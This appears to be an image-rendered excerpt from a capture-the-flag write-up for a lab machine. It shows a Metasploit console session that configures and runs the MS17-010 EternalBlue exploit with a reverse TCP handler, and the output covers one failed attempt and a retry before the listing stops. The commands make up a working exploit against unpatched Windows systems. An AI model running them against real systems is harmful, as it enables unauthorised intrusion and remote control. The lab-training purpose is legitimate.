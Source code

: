 ```shell-session
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set SMBDomain WORKGROUP\\x00
SMBDomain => WORKGROUP\x00
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set LHOST tun0
LHOST => 10.10.14.3
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS blue.htb
RHOSTS => blue.htb
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >>
```

Okay, we're all set. Let's run the exploit...

```shell-session
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_eternalblue) >> run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.129.199.202:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.199.202:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.199.202:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.199.202:445 - The target is vulnerable.
[*] 10.129.199.202:445 - Connecting to target for exploitation.
[+] 10.129.199.202:445 - Connection established for exploitation.
[+] 10.129.199.202:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.199.202:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.199.202:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.199.202:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.199.202:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.199.202:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.199.202:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.199.202:445 - Sending all but last fragment of exploit packet
[*] 10.129.199.202:445 - Starting non-paged pool grooming
[+] 10.129.199.202:445 - Sending SMBv2 buffers
[+] 10.129.199.202:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.199.202:445 - Sending final SMBv2 buffers.
[*] 10.129.199.202:445 - Sending last fragment of exploit packet!
[*] 10.129.199.202:445 - Receiving response from exploit packet
[+] 10.129.199.202:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.199.202:445 - Sending egg to corrupted connection.
[*] 10.129.199.202:445 - Triggering free of corrupted buffer.
[-] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.129.199.202:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.129.199.202:445 - Connecting to target for exploitation.
[+] 10.129.199.202:445 - Connection established for exploitation.
[+] 10.129.199.202:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.199.202:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.199.202:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.199.202:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.199.202:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.199.202:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.199.202:445 - Trying exploit with 17 Groom Allocations.
[*] 10.129.199.202:445 - Sending all but last fragment of exploit packet
[*] 10.129.199.202:445 - Starting non-paged pool grooming
[+] 10.129.199.202:445 - Sending SMBv2 buffers
[+] 10.129.199.202:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.199.202:445 - Sending final SMBv2 buffers.
[*] 10.129.199.202:445 - Sending last fragment of exploit packet!
[*] 10.129.199.202:445 - Receiving response from exploit packet
```